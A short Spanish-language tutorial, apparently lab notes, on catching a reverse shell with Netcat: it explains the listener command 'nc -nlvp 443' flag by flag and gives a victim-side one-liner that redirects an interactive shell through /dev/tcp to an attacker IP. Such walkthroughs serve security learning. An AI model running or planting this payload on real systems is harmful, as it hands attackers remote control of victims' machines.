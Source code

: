 # Netcat para entablar Reverse Shell

¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re

<aside>
💡

https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

</aside>

![image.png](./imagenes/image.png)

Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

`nc -nlvp 443`

<aside>
💡

`nc`: Invoca **la herramienta** Netcat.

`-n`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.

`-l`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.

`-v`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.

`-p 443`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).

</aside>

![image.png](./imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png)

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator. 

`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

![image.png](./imagenes/image%201.png)

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

![image.png](./imagenes/image%202.png)

![image.png](./Imagenes/image%203.png)